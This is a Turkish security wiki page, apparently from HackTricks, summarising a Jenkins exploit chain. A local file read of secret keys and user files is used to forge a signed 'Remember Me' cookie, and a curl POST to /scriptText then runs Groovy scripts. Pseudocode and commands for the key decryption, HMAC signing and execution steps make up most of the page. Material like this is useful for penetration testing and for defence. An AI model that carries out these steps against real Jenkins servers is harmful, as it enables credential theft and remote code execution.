 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu blog yazısında, Jenkins'teki bir Yerel Dosya Dahil Etme açığını RCE'ye dönüştürmenin harika bir yolunu bulabilirsiniz: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Bu, bir yerel dosya okuma açığını kullanarak RCE elde etmek için bir keyfiyet çerezi oluşturmanın kötüye kullanıldığı yazının bir kısmının AI tarafından oluşturulmuş özetidir:

### Saldırı Ön Koşulları

* **Özellik Gereksinimi:** "Beni hatırla" etkin olmalıdır (varsayılan ayar).
* **Erişim Düzeyleri:** Saldırganın Genel/Okuma izinlerine ihtiyacı vardır.
* **Gizli Erişim:** Anahtar dosyalardan hem ikili hem de metin içeriğini okuma yeteneği.

### Ayrıntılı Sömürü Süreci

#### Adım 1: Veri Toplama

**Kullanıcı Bilgisi Alma**

* Her kullanıcı için `$JENKINS_HOME/users/*.xml` dosyasından kullanıcı yapılandırması ve gizli bilgileri erişin:
* **Kullanıcı Adı**
* **Kullanıcı tohum**
* **Zaman damgası**
* **Şifre karması**

**Gizli Anahtar Çıkartma**

* Çerezi imzalamak için kullanılan kriptografik anahtarları çıkartın:
* **Gizli Anahtar:** `$JENKINS_HOME/secret.key`
* **Anahtar:** `$JENKINS_HOME/secrets/master.key`
* **MAC Anahtar Dosyası:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Adım 2: Çerez Sahteciliği

**Token Hazırlığı**

*   **Token Süre Sonunu Hesapla:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Mevcut zamana bir saat ekler
```
{% endcode %}
*   **Token için Verileri Birleştir:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Anahtarının Şifre Çözümü**

*   **MAC Anahtar Dosyasını Şifre Çöz:**

```javascript
key = toAes128Key(masterKey)  // Anahtarı AES128 anahtar formatına dönüştür
decrypted = AES.decrypt(macFile, key)  // .mac dosyasını şifre çöz
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**İmza Hesaplama**

*   **HMAC SHA256 Hesapla:**

```javascript
mac = HmacSHA256(token, macKey)  // Token ve MAC anahtarını kullanarak HMAC hesapla
tokenSignature = bytesToHexString(mac)  // MAC'i onaltılık dizeye dönüştür
```

**Çerez Kodlama**

*   **Son Çerezi Oluştur:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Çerez verilerini Base64 ile kodla
```
{% endcode %}

#### Adım 3: Kod Çalıştırma

**Oturum Kimlik Doğrulama**

* **CSRF ve Oturum Token'larını Al:**
* `Jenkins-Crumb` almak için `/crumbIssuer/api/json` adresine bir istek yapın.
* Yanıttan `JSESSIONID`'yi yakalayın, bu `remember-me` çerezi ile birlikte kullanılacaktır.

**Komut Çalıştırma İsteği**

*   **Groovy Script ile POST İsteği Gönder:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy script, sistem düzeyinde komutları veya Jenkins ortamında diğer işlemleri çalıştırmak için kullanılabilir.

Verilen örnek curl komutu, gerekli başlıklar ve çerezlerle Jenkins'e istek yaparak keyfi kodu güvenli bir şekilde çalıştırmanın nasıl yapılacağını göstermektedir.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
